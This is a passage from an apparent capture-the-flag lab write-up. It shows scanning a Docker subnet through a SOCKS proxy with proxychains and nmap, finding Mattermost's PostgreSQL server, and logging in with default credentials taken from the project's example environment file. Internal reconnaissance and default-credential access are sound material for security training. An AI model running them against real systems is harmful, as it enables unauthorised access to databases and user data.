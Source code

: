 For every subnet, `172.X.0.1` is the host itself and the containers start at `172.X.0.2`. We can ping them one by one to see if they are up and then scan them with `nmap` through the SOCKS proxy we setup earlier to check if port 5432 is open.

With trial and error we find out that `172.21.0.3` is the PostgreSQL database instance used by Mattermost.

```shell-session
└─$ proxychains -q nmap 172.21.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-27 01:53 CEST
Nmap scan report for 172.21.0.3
Host is up (0.017s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
5432/tcp open  postgresql

Nmap done: 1 IP address (1 host up) scanned in 18.53 seconds
```

### Default credentials

By searching for `mattermost docker postgres install` we stumble on a [guide in the official documentation](https://docs.mattermost.com/install/install-docker.html). The following section is interesting:

![](/assets/vulnlab/chains/unintended/img/15.png)

In the [GitHub repository](https://github.com/mattermost/docker) referenced in the article there's a `env.example` file containing the default credentials for PostgreSQL.

![](/assets/vulnlab/chains/unintended/img/16.png)

```shell-session
└─$ PGPASSWORD=mmuser_password proxychains psql -h 172.21.0.3 -d mattermost -U mmuser                                        
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
psql (16.2 (Debian 16.2-1), server 13.14)
Type "help" for help.

mattermost=# 
```
